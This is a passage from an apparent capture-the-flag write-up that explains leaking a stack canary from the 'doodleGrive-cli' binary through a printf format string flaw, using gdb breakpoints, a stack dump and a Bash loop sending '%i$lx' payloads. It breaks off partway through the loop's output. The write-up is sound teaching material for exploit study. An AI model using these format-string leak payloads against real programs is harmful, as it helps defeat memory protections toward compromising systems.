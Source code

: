 There's nothing here I haven't shown many times before, but I'll give a
quick walkthrough as it is the intended way.

#### Leak Canary

In `main`, there's a format string vuln, where the user input name is
printed as the first argument to `printf`:



      printf("Enter password for ");
      printf(entered_username,0x10);



That `printf` call takes place at the 0x40229c. The stack canary is set
at 0x402202. I'll break at both of those in `gdb`:



    gdb-peda$ b *0x402202
    Breakpoint 1 at 0x402202
    gdb-peda$ b *0x40229c
    Breakpoint 2 at 0x40229c 



I'll run to the first break, and then step to see the canary get set in
RAX and then pushed to the stack. In this run, its set as:



    RAX: 0xa70f7a4603600e00 



I'll run to the next break, putting in whatever as a username. When it
gets there, I'll look at the stack:



    gdb-peda$ x/16g $rsp
    0x7fffffffda80: 0x0000786c24353125      0x0000000000000002
    0x7fffffffda90: 0x00000000004c00e0      0x000000000040339c
    0x7fffffffdaa0: 0x00007fffffffdc08      0x0000000000400518
    0x7fffffffdab0: 0x0000000000403320      0x00000000004033c0
    0x7fffffffdac0: 0x0000000000000000      0xa70f7a4603600e00
    0x7fffffffdad0: 0x0000000000403320      0x0000000000402b50
    0x7fffffffdae0: 0x0000000000000000      0x0000000100000000
    0x7fffffffdaf0: 0x00007fffffffdc08      0x00000000004021ed



The space for input is small, but I can read the i-th word on the stack
with `%i$lx`, where `i` is a number.

I'll use a simple Bash loop to try different offsets:



    oxdf@hacky$ for i in $(seq 1 30); do echo -n "$i: "; echo "%${i}"'$lx' | ./doodleGrive-cli | grep "Enter password for" | cut -d' ' -f4; done
    1: 10:
    2: 0:
    3: 0:
    4: 7ffc322aa7b0:
    5: 13:
    6: 786c243625:
    7: 2:
    8: 4c00e0:
    9: 40339c:
    10: 7ffe4d8f3f48:
    11: 400518:
    12: 403320:
    13: 4033c0:
    14: 0:
    15: 7e298c924cb0a00: